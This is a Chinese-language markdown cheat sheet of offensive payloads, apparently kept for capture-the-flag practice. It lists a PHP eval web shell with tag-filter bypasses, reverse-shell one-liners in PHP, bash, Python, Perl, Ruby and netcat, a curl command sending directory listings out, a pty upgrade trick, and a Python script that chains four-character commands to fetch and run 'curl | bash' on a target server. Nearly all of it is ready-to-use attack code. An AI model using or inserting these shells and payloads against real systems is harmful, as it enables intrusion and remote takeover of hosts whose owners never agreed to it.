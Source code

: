 # Shell

## 几种特殊符号

1. 反引号 `` ` ``
2. 文件重定向符 `` > <``
3. 环境变量 ``${}``

## PHP

一句话：

```php
<?php eval($_REQUEST['eki']);?>
```

``eval``也可以改成``system、assert``

### Bypass:

1. 当仅禁用``<?php``时，可以使用``<?    ?> ``
    
   要求：需要开启短标签开关，``short_open_tag``

2. 当禁用``<?php``以及``?>``时，还可以使用``<?=``不需要闭合标签 
    
    要求：PHP版本>PHP 5.4.0

3. 禁用了``<?、 <?php、 ?>``时，可以使用asp标签``<%  %>``

    要求：asp_tags设成On


4. ``<script language="php">system($_REQUEST['eki']);</script>`` 
   
    等价于``<?php system($_REQUEST['eki']);?>``

    要求：php7之前

命令行反弹Shell

```bash
php -r '$sock=fsockopen("127.0.0.1",2333);exec("/bin/sh -i <&3 >&3 2>&3");
```

curl
```bash
curl http://127.0.0.1:2333/ -d `ls /`;
```

## BASH

```bash
bash -i >& /dev/tcp/127.0.0.1/233 0>&1
```

## Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

## Perl

```perl
perl -e 'use Socket;$i="127.0.0.1";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",233).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

```bash
nc -e /bin/sh 127.0.0.1 2333
```

正向弹

靶机：
```bash
nc -lvvp 2333 -e /bin/bash
```

攻击机
```
nc ip 2333
```
## 获取Bash交互行

```
python -c "import pty;pty.spawn('/bin/bash')"
```

## 字符限制绕过

以hackme为例

```python
import requests
from time import sleep
from urllib import quote
import base64

payload = [
    # generate "g> ht- sl" to file "v"
    '>dir', 
    '>sl', 
    '>g\>',
    '>ht-',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',

    # generate "curl <IPHEX> | ba sh;"
    # 
    '>\;',  
    '>sh\\',
    '>ba\\', 
    '>\|\\',
    '>XX\\', 
    '>XX\\', 
    '>XX\\', 
    '>XX\\',
    '>0x\\',
    '>\ \\', 
    '>rl\\',
    '>cu\\',

    'sh x', 
    'sh g',
]


for i in payload:
    assert len(i) <= 4
    header ={
        "User-Agent":"Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36",
        "Cookie":"PHPSESSID=1af6e5b03d0df7c07ae2e548bd44183c"
    }
    data ={
        "url":"compress.zlib://data:@127.0.0.1/plain;base64,"+base64.b64encode(i)
    }
    r = requests.post(url='http://121.36.222.22:88/core/index.php',data=data,headers=header)
    print r.text
    print i
    sleep(0.1)
```

## 绕过cat

1. ``\``
2. ``rev,more``
3. ``tac``